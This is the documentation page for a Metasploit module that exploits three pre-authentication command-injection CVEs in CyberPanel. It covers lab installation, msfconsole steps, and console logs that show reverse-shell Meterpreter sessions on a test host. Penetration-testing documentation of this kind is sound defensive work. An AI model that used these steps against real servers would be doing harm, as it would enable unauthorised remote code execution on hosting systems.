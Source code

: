 ## Vulnerable Application

CyberPanel is an open-source web hosting control panel based on OpenLiteSpeed.
This module exploits two pre-authenticated remote command execution (RCE) vulnerabilities found in certain versions of CyberPanel.

- **CVE-2024-51378**: The `getresetstatus` endpoint in `dns/views.py` and
`ftp/views.py` in CyberPanel before commit `1c0c6cb` allows remote attackers to
bypass authentication and execute arbitrary commands via `/dns/getresetstatus` or
`/ftp/getresetstatus` by bypassing `secMiddleware`(which applies only to POST
requests) and using shell metacharacters in the `statusfile` property.
This vulnerability has been exploited in the wild as of October 2024 by PSAUX, affecting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51567**: The `upgrademysqlstatus` endpoint in `databases/views.py` in
CyberPanel before commit `5b08cd6` allows remote attackers to bypass authentication
and execute arbitrary commands via `/dataBases/upgrademysqlstatus`, also by
bypassing `secMiddleware` and using shell metacharacters in the `statusfile` property.
This vulnerability has similarly been exploited in the wild in October 2024
by PSAUX, impacting versions through 2.3.6 and the unpatched 2.3.7.

- **CVE-2024-51568**: CyberPanel before 2.3.5 allows command
injection via completePath in the ProcessUtilities.outputExecutioner() sink.
This vulnerability includes unauthenticated remote code execution via shell
metacharacters in the /filemanager/upload (aka File Manager upload) endpoint,
exploiting shell metacharacters for arbitrary command execution.

These vulnerabilities allow attackers to execute commands on the server without needing authentication.

### Installation Instructions

To set up a vulnerable instance of CyberPanel for testing, follow these
instructions on an Ubuntu 18.04 server (or later).
The example below demonstrates installation on Ubuntu 18.04, though newer versions of Ubuntu should work as well.

1. First, install necessary dependencies and disable IPv6 to avoid potential network issues:

```bash
sudo su -
apt update && apt install -y curl wget
sysctl -w net.ipv6.conf.all.disable_ipv6=1
sysctl -w net.ipv6.conf.default.disable_ipv6=1
```

2. Then, download and run the CyberPanel installation script:

```bash
sh <(curl https://cyberpanel.net/install.sh || wget -O - https://cyberpanel.net/install.sh)
```

3. During installation, choose the following options:
   - Install CyberPanel: Select option `1`
   - Install CyberPanel with OpenLiteSpeed: Select option `1`
   - Skip full installation (choose `n`)
   - Skip Postfix, PowerDNS, and PureFTPd installations
   - Skip Remote MySQL setup
   - Install CyberPanel version `2.3.4` when prompted
   - Decline Memcached and Redis installations
   - Decline WatchDog setup for Web service and Database service

## Verification Steps

1. Install CyberPanel as outlined above.
2. Start `msfconsole`.
3. Use the module path: `use exploit/unix/webapp/cyberpanel_preauth_rce_multi_cve`.
4. Set the `RHOSTS` option to the target server’s IP.
5. Run the exploit with the desired CVE (choose either `cve-2024-51567`, `cve-2024-51568` or `cve-2024-51378`).
6. A successful exploitation should provide a shell on the target.

## Options

No option

## Scenarios

### Example: CVE-2024-51567 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51567` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51567
action => CVE-2024-51567
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 4 opened (192.168.1.36:4444 -> 192.168.1.16:35194) at 2024-11-21 22:26:12 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Example: CVE-2024-51378 on CyberPanel 2.3.5 (Ubuntu 18.04)

To exploit `CVE-2024-51378` and achieve remote command execution:

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51378
action => CVE-2024-51378
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 5 opened (192.168.1.36:4444 -> 192.168.1.16:39820) at 2024-11-21 22:27:06 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

### Example: CVE-2024-51568 on CyberPanel 2.3.4 (Ubuntu 18.04)

```bash
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > set action CVE-2024-51568
action => CVE-2024-51568
msf6 exploit(unix/webapp/cyberpanel_preauth_rce_multi_cve) > run http://192.168.1.16:8090

[*] Started reverse TCP handler on 192.168.1.36:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] CSRF Token retrieved: CtCqolh8EQHkik3J8sjbUxPemD9PN8j2cZ7QBIxtUN3zmHQ1sbSnXOCBVWr00kI7
[*] CSRF Token retrieved: ExmQR7HciOpdsPRrh43NNjGNYaLbRb6pKnap4Z5onPfVGjPqCNFyehTAqIpBrSuB
[+] The target is vulnerable. Target is running CyberPanel and is vulnerable.
[*] CSRF Token retrieved: NMATUvqAxFW2bU5bnhvFf860BfFrj8DGMqtSXS81RbmxjifXo9sJCe1KM7933cIY
[*] Sending stage (3045380 bytes) to 192.168.1.16
[*] Meterpreter session 7 opened (192.168.1.36:4444 -> 192.168.1.16:46212) at 2024-11-21 22:37:00 +0100

meterpreter > sysinfo 
Computer     : 192.168.1.16
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```
